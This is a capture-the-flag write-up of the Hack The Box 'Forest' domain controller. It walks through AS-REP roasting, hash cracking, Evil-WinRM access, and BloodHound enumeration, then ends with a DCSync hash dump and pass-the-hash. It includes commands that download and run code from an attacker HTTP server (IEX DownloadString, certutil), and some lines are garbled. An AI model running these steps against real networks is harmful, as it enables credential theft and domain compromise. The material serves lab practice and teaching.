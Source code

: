 ```yaml
---
title: "Forest HTB"
date: 2024-08-07 20:17:41 +0800
categories: [Forest, Medium]
tags: [Forest, Easy-Level, HTB Walkthrough]
---
```




 "
Series Intro:
Hello Hackers, Today we are gonna attack another HTB retired machine in our Active Directory series for a better practical learning experience for me. As soon as I’m done with this series, I’m gonna make tutorials on each stage of compromising active directory domain controller with detailed mind maps. feel free to follow up If anything interests you.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nSw-_MeL8HrXdGg8T7mENw.gif)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*XVl1noITNhAp1uAtm-Xibw.png)
Analyzing Nmap result:
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*pQpF4bPE3314feHvINrHtA.png)
We got 135 rpc, 389 ldap, 445 smb & 5985 winrm service open ports.
Further, after this, Let’s focus on the enumeration of these ports.
You can try rpcclient, for Kerberos(Impacket libraries like Getuserspns.py, GetADUsers.py, GetNPUsers.py), smbclient/smbmap & evil-winrm for winrm are common enumeration tools.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*_E56BxjRpDfK0QY85gSa4w.png)
First I started Enumeration with rpcclient & while smbclient those don’t seem to work with an anonymous login. we can also go for an LDAP search or do some LDAP scans for more information. I see that the domain name “htb.local” from
namingContexts: DC:htb, DC=local.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*dXRZJfXkJbQkwH4ZerHHPw.png)
But I just went with Kerberos, Normally for attacking Kerberos we need usernames since, Anonymous Login is allowed & it is successful.
we have something that can be logged in that’s all we need for now.
GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*38m_4ozFaZe4VKGerMKpyA.png)
Yeyy(❁´◡`❁)!! That did give us TGT for some account .
Background knowledge on how this was working ASREP-Roasting
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*2iAr73r4ngg87PpW3I0ylA.png)
we can see the username and domain name attached to it. I googled cracking krb5asrep hashes. or you search it with hashcat,
hashcat -h | grep -i “AS-REP” for offline approach.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Ecnt7aNYh1m_iAUJvnQl3Q.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*rY2CsH-2OnPmKfz3SX1S0w.png)
And done, we just got our first credentials😁. Let’s try this out on the services we already know.
we can see that, we still have only read-access on the shares which wasn’t preventing us from getting a shell with these shares.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*e4tcQmmlIqgSvRo9KP2ajg.png)
Saving up the hassle for you, I tried smbclient but it got me nowhere.
Since We also got the Winrm remote management service for this machine. which would normally used by system administrators to access the machine using remote management. A quick tool that can come to my mind is gonna be, Evil-winrm.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*r5EY3DGSgVtqMX77r4c6Dw.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*70ULGxFkx7Qrl0YQjB_3NA.png)
Tada!!! We got the User flag!!!!!!!!!!!!!!!!!!
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*FvXmzjMkTPwwCPSXM6lwKA.gif)
Done?? Not yet!!
After trying tried run Privilege Escalation methods like winpeasx64 and Windows local exploit suggesters. Since we are getting information out of LDAP. Seems like it is less authenticated.
We can fire up Bloodhound on the victim machine and Gather all information on the domain controller in one place. It might get intimidating but we are just gathering enumerating domain information through BloodHound here.
We will be needing a smbserver connection between the alfresco machine and Kali for easy file transfer. Most of the time we will be getting smb shell. So, this is better in that case.     
For that, Step 1: we need to start a smbserver on our end to get access from our victim as a share. for better file transfer.
sudo impacket-smbserver tmp $(pwd) -smb2support -user smbserver -password anypassword
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*5HTVVemls77y378aB9bYcw.png)
Step 2: Then to access this share of ours on the victim machine do the following commands.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*pDZtxvFlQGEupNv5VbtJRg.png)
Step 3: Finally, Creating a drive with this share while Assigning it as the root directory can give us root access.
Complete these three steps:
$pass = convertto-securestring ‘anypassword’ -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential (‘servername’, $pass)
New-PSDrive -Name anyname -PSProvider FileSystem -Credential $cred -Root \10.10.x.x     mp
SMB Share Connection is Established.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*jP_6xTw0av0aSi7OCZnZOA.png)
SharpHound:
we can do it with the help of SharpHound. For those who haven’t downloaded it yet!! Here’s a Github Link.
And started a Python HTTP web server in that directory.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*1BmQttIQ5ujYa7WCHA38Lg.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*1ySPgG-iTBzLJ2sBWAlKmA.png)
IEX(Net-Object Net.Webclient).Downloadstring(“http://10.10.16.2/SharpHound.ps1")
For some reason, this shell doesn’t return few errors.
If this is file transfer wasn’t working well. Use certutil.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*e43OVpgRPv6ygKPRFbowIQ.png)
certutil.exe -urlcache -f http://10.10.16.2/SharpHound.ps1 SharpHound.ps1
And verify it with,
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*cbDP4CNPFgB21IyFxBDAgw.png)
Still this gave me nothing, I guess the SharpHound.ps1 isn’t working.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*NOsN0JR4c7oEDGRGaFc20w.png)
Tried, SharpHound.exe from the Bloodhound Modules.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*GbPiTDFR0Gs6pTD6gnoCYA.png)
Used the same, certutil for file transfer.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*gXjAXVCnSRVDGcbfTZfSJA.png)
And it is working now. Might be that Powershell cmds aren’t working on this shell even if it was a Powershell 😂.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*9RCQNEAOKXYgq0Apt5VYTA.png)
Finally, we got the bloodhound file we needed for discovering ways to privilege escalation on this machine.
In Evil-WinRM, you can do the download
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*3wBh5m7ljf1pKN_ELcJ9VQ.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*w1FmeNp6DzTUDIrcBe7hTw.png)
Or since the SMBserver is already running. you can simply change to that directory and do the command xcopy.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*vIgTB5HI67kF70xmsefKjA.png)
Analyzing Bloodhound results:
Let me walk through this If you’re not familiar with Bloodhound It can be intimidating. Even I’m not just staying tuned (Bloodhound is simply better Mind Map from Domain Enumeration Scan). First and foremost of exfiltering results, Shortest paths to Unconstrained Delegation Systems.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*PRzkpGVcmPvI5CA8KWRGUw.png)
Then, we can select our user svc-alfresco as owned with Mark User as Owned.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nqp1W4QzXhL8NbQg4oK81Q.png)
Then we can select the Shortest Path from Owned Principals. To see the Groups you are active and the permissions. With Bloodhound you can also get to see attack suggestions for privilege Escalation.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*LZuFwS23lfDfr4VsWRSnmw.png)
After analyzing the Bloodhound results we can see the instructions that were shown for abusing the Windows machine.
Note: The Exchange Windows Permissions(EWP) Do have WriteDACL Access which basically allows all members of it to modify the privileges. With this in hand, we will be using ntlmrelay for escalating svc-alfresco as soon as the authentication is relayed to LDAP after adding it to this EWP group. This is called a DCSync Attack simply gaining privileges over abusing access control lists.
BloodHound Tip:
If you ever feel like getting stuck and don’t really understand how to escalate further. Always remember you’re end goal is gonna administrative privileges. Between the mapping nodes. You can simply right-click & there will be help menu beneath unveiling standard ways and few references. Always be should sure to head there.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*ay5A2Onbfx3d8xgaQ2GeUQ.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*olE1-t1Zp-PWaF5_bdlkjA.png)
Few More Possible Outcomes are available on this Privilege Escalation Cheatsheet, Feel free to check out for other attacks.
Back to the Attack:
We need the PowerView for this attack. Since we want to add our user to this specific Group for Escalating. For performing a DCsync attack.
This Attack can help us in relaying the hashes using ntlmrelayx
Add-ADGroupMember -Identity “Exchange Windows Permissions” -members svc-alfresco
This below command lets you add user into the Exchange Windows Permissions Group.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*DM6KQCKSstbwmn-HRmabsg.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*TGnGrQCQIFbyx9Mm6RC4dg.png)
Also If you want to add a new domain to this Group, You can directly create a new AD User & Add this user with the same Add-ADGroupMember command to add this user into the Exchange server.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*YOaN2fJrnR2H90f01kQSyQ.png)
Or you can still progress with our existing account “svc-alfresco”.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Y3qF2FgBLj0imJoSl7PJZg.png)
After this, The Server will be waiting for authentication. We can do this by going to http://127.0.0.1 our localhost address. After you have entered the username and password.
And done privileges are already escalated you can confirm this with secretsdump.py from impacket. You can see that, now we can dump administrator hashes.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*sKlmM5KZRWcZiAxBQX3nJw.png)
And That’s it with these hashes in hand. We can simply relay these hashes using the Pass-the-hash technique as Administrator with the psexec.py from Impacket as well.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nCwrQSz19o1oLKZTeaT9aA.png)
And the Juicy ROOOT FLAG😋😋!!!!
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*N5eqM-zWpjcm0mupqYzRUA.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*TuCoz17Sh748rvfnIWuP6g.png)
Not so easy!! Right?
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*QP9Fpa5wqFXPEpLo8qgQDA.gif)
Forest was said to be an easy difficulty Windows Domain Controller (DC), for a domain in which Exchange Server has been installed. The DC is found to allow anonymous LDAP binds, which are used to enumerate domain objects.
The password for a service account with Kerberos pre-authentication disabled can be cracked to gain a foothold. The service account is found to be a member of the Account Operators group, which can be used to add users to privileged Exchange groups. The Exchange group membership is leveraged to gain DCSync privileges on the domain and dump the NTLM hashes.
why we are doing, what we are doing?
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*VAKgNxddT-bWgWaHyT6Vbg.png)"
